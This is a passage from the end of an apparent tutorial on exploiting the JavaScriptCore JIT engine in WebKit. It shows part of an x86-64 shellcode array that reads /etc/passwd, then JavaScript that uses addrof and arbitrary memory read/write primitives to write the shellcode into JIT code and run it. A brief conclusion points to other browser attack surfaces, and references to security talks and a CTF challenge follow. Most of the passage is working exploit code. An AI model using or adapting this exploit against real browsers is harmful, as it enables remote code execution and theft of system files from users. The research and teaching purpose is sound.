                   0x4, 0x2, 0x48, 0x31, 0xf6, 0xf, 0x5, 0x66, 0x81, 0xec, 0xff,
                   0xf, 0x48, 0x8d, 0x34, 0x24, 0x48, 0x89, 0xc7, 0x48, 0x31,
                   0xd2, 0x66, 0xba, 0xff, 0xf, 0x48, 0x31, 0xc0, 0xf, 0x5,
                   0x48, 0x31, 0xff, 0x40, 0x80, 0xc7, 0x1, 0x48, 0x89, 0xc2,
                   0x48, 0x31, 0xc0, 0x4, 0x1, 0xf, 0x5, 0x48, 0x31, 0xc0, 0x4,
                   0x3c, 0xf, 0x5, 0xe8, 0xbc, 0xff, 0xff, 0xff, 0x2f, 0x65,
                   0x74, 0x63, 0x2f, 0x70, 0x61, 0x73, 0x73, 0x77, 0x64, 0x41]

  var s = "A".repeat(64);
  var strAddr = addrof(s);
  var strData = Add(memory.read64(Add(strAddr, 16)), 20);

  // write shellcode
  shellcode.push(...strData.bytes());
  memory.write(jitCodeAddr, shellcode);

  // trigger and get /etc/passwd
  func();
  print() 
#+end_example

--------------

* Conclusion
  :PROPERTIES:
  :CUSTOM_ID: conclusion
  :END:
We have demonstrated the exploitation of the most complicated part of
browser - JavaScript engine. However, browser is huge. There are many
other attack surface, like DOM and WASM. Some researchers also find bugs
in SQL database used by browsers that may be turned into RCE. Be patient
and be creative.

--------------

* References
  :PROPERTIES:
  :CUSTOM_ID: references
  :END:

- /Groß S/, 2018, Black Hat USA, /"Attacking Client-Side JIT Compilers"/
- /Han C/, [[https://github.com/tunz/js-vuln-db/][/"js-vuln-db"/]]
- /Gianni A/ and /Heel1an S/, /"Exploit WebKit Heap"/
- /Filip Pizlo/, http://www.filpizlo.com, Thanks for many presentations!
- /Groß S/, 2018, 35C3 CTF /WebKid Challenge/
- /dwfault/, 2018,
  [[http://dwfault-blog.imwork.net:30916/2019/01/03/WebKit%20JavaScriptCore%E7%9A%84%E7%89%B9%E6%AE%8A%E8%B0%83%E8%AF%95%E6%8A%80%E5%B7%A7/][/WebKit
  Debugging Skills/]]
